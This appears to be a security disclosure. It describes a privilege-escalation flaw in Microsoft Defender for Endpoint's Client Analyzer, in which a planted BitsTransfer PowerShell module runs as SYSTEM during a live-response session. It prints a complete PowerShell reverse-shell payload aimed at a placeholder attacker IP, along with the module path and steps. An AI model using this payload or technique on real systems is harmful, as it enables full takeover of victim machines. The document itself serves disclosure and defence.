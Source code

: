 # Summary
    
When contacting support, Microsoft may ask for the output package of the "Microsoft Defender for  Endpoint Client Analyzer" tool. This guidance is available in the article "Collect support logs in Microsoft Defender for Endpoint using live response" ( https://docs.microsoft.com/en-us/microsof-365/security/defender-endpoint/troubleshoot-collect-support-log?view=o365-worldwide). I discovered that the "Microsoft Defender for Endpoint Client Analyzer" tool does not check the integrity of PowerShell modules and allows an attacker to gain “nt authority\system” privileges on the victim machine.
    
# Description

## Preconditions for the Attack
    
* The user has permissions to write into one of the following directories on the victim machine:
   * WindowsPowerShell\Modules
   * C:\Program Files\WindowsPowerShell\Modules
   * C:\Windows\system32\WindowsPowerShell\v1.0\Modules   
   * C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell

* A SOC analyst establishes a Live response session to the victim in MDE and runs the "Microsoft  Defender for Endpoint Client Analyzer" tool
    
## Steps to Reproduce
 
The "Microsoft Defender for Endpoint Client Analyzer" tool is available at the following URL https://aka.ms/MDELiveAnalyzer (a compressed MDELiveAnalyzer.ps1 script). The script when uploaded can be run in the Live response command console as "run MDELiveAnalyzer.ps1". As seen in the figure **figure1**, the script drops **MDEClientAnalyzer.ps1** with some additional tools. 

The script MDEClientAnalyzer.ps1, dropped by MDELiveAnalyzer.ps1, is carefully designed and checks the integrity of executables via the **Check-Command-verified** function which calls the **CheckAuthenticodeSignature** function to check the signature of executables. Part of the function is visible in the figure **figure2**.
   
In the privilege escalation attack we are trying to plant a malicious **BitsTransfer** module in one of the default paths of PowerShell modules. The PSModulePath environment variable stores the paths to the locations of the modules that are installed on disk. PowerShell uses this variable to locate modules when the user does not specify the full path to a module. In the Live response session, the PSModulePath environment variable contains the following paths:

* WindowsPowerShell\Modules
* C:\Program Files\WindowsPowerShell\Modules
* C:\Windows\system32\WindowsPowerShell\v1.0\Modules
* C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell\

The privilege escalation attack assumes that some of the paths are writable for the current user. The first one (WindowsPowerShell\Modules) is unlikely since the Live response sessions runs in the path "C:\ProgramData\Microsoft\Windows Defender Advanced Threat Protection\" which requires "NT Authority\System" privileges to access or modify the content. The second and third are more likely. In the simulation we are using the second path (C:\Program Files\WindowsPowerShell\Modules). 

We create a new module at:

`C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1`

The content of the module is visible below.

```
function Start-BitsTransfer
{
 Param
 (
 [Parameter(Mandatory=$false)]
 [string] $Source,
 [Parameter(Mandatory=$false)]
 [string] $Destination,
[Parameter(Mandatory=$false)]
 [string] $TransferType,
[Parameter(Mandatory=$false)]
[switch] $Asynchronous,
[Parameter(Mandatory=$false)]
 [string] $Description,
[Parameter(Mandatory=$false)]
 [string] $RetryTimeout,
[Parameter(Mandatory=$false)]
 [string] $RetryInterval
 )
Write-Host $env:PSModulePath
$client = New-Object System.Net.Sockets.TCPClient("XXX.XXX.XXX.XXX",443);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -
ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = 
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Fl
ush()};$client.Close()
}
```

The module contains the necessary arguments since from MDEClientAnalyzer.ps1 the **Start-BitsTransfer** function is called twice like:

```
Start-BitsTransfer -source $webfile -Destination "$DlZipFile" -Description "Downloading 
additional files" -RetryTimeout 60 -RetryInterval 60 -ErrorAction SilentlyContinue

Start-BitsTransfer -Source $WPTURL -Destination "$DlZipFile" -TransferType Download -
Asynchronous
```
The other part of the malicious module prints the environment variable PSModulePath and establishes a reverse connection to XXX.XXX.XXX.XXX on port 443. 

The attacker that planted the malicious module in "C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1" is now waiting for the live response sessions and the collection of the output package of the "Microsoft Defender for Endpoint Client Analyzer" tool.

Once a SOC analyst establishes a live response session, uploads the MDELiveAnalyzer.ps1 scripts and runs it, the attacker gets a reverse shell to the victim as "NT Authority\System". In the figure **figure3** we can see the SOC analyst running MDELiveAnalyzer.ps1 and the output of the malicious **BitsTransfer** module. In the figure **figure4** we can see an established reverse shell to the attacker machine. It is also visible that the reverse shell runs whit the privileges of "nt authority\system". This concludes our privilege escalation attack.

## Supporting materials/ references:
    
* figure1.JPG
* figure2.JPG
* figure3.JPG
* figure4.JPG
